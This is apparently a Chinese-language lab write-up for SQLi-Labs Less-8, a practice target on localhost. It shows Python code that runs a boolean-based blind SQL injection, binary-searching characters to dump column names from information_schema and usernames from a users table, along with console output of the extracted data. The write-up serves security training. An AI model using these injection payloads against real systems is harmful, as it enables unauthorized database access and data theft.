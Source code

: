爆列名：

```python
import requests

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"

def getBinarySearchResult(url: str, paramRange: list[int], successInfo: str) -> int:
	......

databaseName = "security"
columnsName = ""
for i in range(1,MAX_FILED_LENGTH+1):
    columnsName += chr(getBinarySearchResult(
        URL_PREFIX + "?id=1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),"+str(i)+",1)) > {} --+",
        [0,127],
        "You are in..........."
    ))
    print(columnsName)
```

```shell
C:\> python writeup.py
    i
    id
    id,
	......
    id,username,passwor
    id,username,password
```

爆数据：

```python
    ......
    columnsName += chr(getBinarySearchResult(
        URL_PREFIX + "?id=1' and ascii(substr((select group_concat(username) from security.users),"+str(i)+",1)) > {} --+",
        [0,127],
        "You are in..........."
    ))
    ......
```

```shell
C:\> python writeup.py
    D
    Du
    Dum
    ......
    Dumb,Angelina,Dummy,secure,stupid,super
    Dumb,Angelina,Dummy,secure,stupid,superm
```
